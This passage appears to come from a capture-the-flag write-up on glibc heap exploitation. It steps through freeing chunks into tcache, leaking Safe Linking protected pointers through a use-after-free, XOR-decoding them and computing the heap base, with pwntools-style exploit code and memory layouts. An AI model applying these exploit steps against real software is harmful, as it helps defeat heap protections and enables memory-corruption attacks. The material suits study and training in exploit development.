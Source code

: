 #### Step 2: Free to Tcache

```python
delete(chunk_A)  # Tcache: chunk_A -> NULL
delete(chunk_B)  # Tcache: chunk_B -> chunk_A -> NULL
delete(chunk_C)  # Goes to unsorted bin (large)
```

After freeing, memory state:

```
Tcache bin (size 0x90):
  Head -> chunk_B -> chunk_A -> NULL

chunk_B memory:
+0x00: 0x0000000000000000    (prev_size)
+0x08: 0x0000000000000091    (size: 0x80 + 0x10 header + PREV_INUSE)
+0x10: 0x000055500000b012    (fd: PROTECTED pointer to chunk_A)
+0x18: ...                    (old user data)

chunk_A memory:
+0x00: 0x0000000000000000    (prev_size)
+0x08: 0x0000000000000091    (size)
+0x10: 0x0000555500000000    (fd: PROTECTED NULL)
+0x18: ...                    (old user data)
```

#### Step 3: Leak Protected Pointers via UAF

```python
# Read chunk_B (contains protected pointer to chunk_A)
read(chunk_B)
leak1 = u64(p.recvn(6).ljust(8, b'\x00'))
log.info(f"Protected ptr to A: {hex(leak1)}")

# Read chunk_A (contains protected NULL)
read(chunk_A)
p.recvn(1)  # Skip first byte
leak2 = u64(p.recvn(6)[1:].ljust(8, b'\x00'))
key = leak2
log.info(f"XOR key: {hex(key)}")
```

#### Step 4: Decrypt and Calculate Heap Base

```python
# Decrypt: protected_ptr XOR key = real_ptr
real_addr_of_A = leak1 ^ key
heap_base = real_addr_of_A - 0x12b0  # Offset from heap start
log.success(f"Heap base: {hex(heap_base)}")
```

**Why This Works:**

Safe Linking protection:
- `protected_ptr_to_A = addr_of_A XOR (addr_of_B >> 12)`
- `protected_null = 0 XOR (addr_of_A >> 12)`

